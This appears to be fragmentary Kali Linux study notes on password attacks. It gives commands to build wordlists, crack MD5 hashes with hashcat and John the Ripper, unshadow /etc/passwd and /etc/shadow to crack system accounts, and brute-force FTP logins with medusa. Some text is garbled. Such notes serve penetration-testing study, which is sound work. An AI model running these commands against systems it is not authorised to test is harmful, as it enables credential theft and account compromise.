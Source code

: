 ### Creating a Wordlist

```cewl www.\\\\\\.com -w /root/Desktop/wordlist.txt```

### Hashed password cracking

- Hashcat

```hashcat -a 3 -m 0 /root/Desktop/md5.txt /root/Desktop/wordlist.txt```

---
Jhon

Password Attack <br>
Offline Attacks <br>
Hash-�dent <br>
Hash:... <br>

Pa <br>
John <br>
john --list=formats <br>
john --list=format=Raw-MD5 --wordlist=/root/Desktop/wordlist.txt /root/Desktop/md5.txt <br>

---
### Crunch (Creating Password)

```crunch 5 6 qwe123 -o /root/Desktop/wordlist.txt```

### Johnny (Finding Users' Passwords in Kali Linux)

```
unshadow
unshadow /etc/passwd /etc/shadow > /root/Desktop/user.txt
Johny
File
```

- (Attacks on Services)

```
nmap -p 21 10.0.2.5
medusa -h 10.0.2.5 -m ftp -U /root/Desktop/ad.txt -P /root/Desktop/password.txt
```